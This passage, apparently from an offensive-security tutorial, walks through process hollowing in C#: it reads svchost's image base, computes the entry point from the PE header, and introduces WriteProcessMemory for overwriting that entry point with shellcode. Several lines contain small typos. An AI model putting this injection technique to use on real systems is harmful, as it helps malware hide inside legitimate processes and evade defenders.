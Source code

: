 The memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process

Now we can read the base code memory address using the following.

```csharp
byte[] addrBuf = new byte[0x8];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
```

The svchostBase contains the pointer to the base code address of svchost (the created process).

Next we need to parse this to get the entry point of the process. We will use ReadProcessMemory API again to read the PE header address and then calculate the process entry point.

> **Info:**
> The PE header located at offset 0x3C and the memory address of the entry point located at (the address of PE Header which at offset 0x3C + 0x28 + the process base memory address). so we need to read the content of offset 0x3C.

We can achieve that using the following code:

```csharp
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
uint opthdr = e_lfanew_offset _+ 0x28;
uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

we have obtained the process entry point address, so let's replace the process memory content with the desired shellcode.

### 4: We will use WriteProcessMemory API to replace the process memory content with the desired shellcode.

Let's import and examine the arguments required by WriteProcessMemory.y API.

```csharp
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```

| Argument    | Description |
| :--------   | :------- |
| IntPtr hProcess | The process handle. |
| IntPtr lpBaseAddress | The address to write to |
| byte[] lpBuffer   | The byte array containing the code that we want to write  |
| Int32 nSize  | The size of the code to be copied   |
| out IntPtr lpNumberOfBytesWritten| To specify how much data was copied |
{: .tablelines}
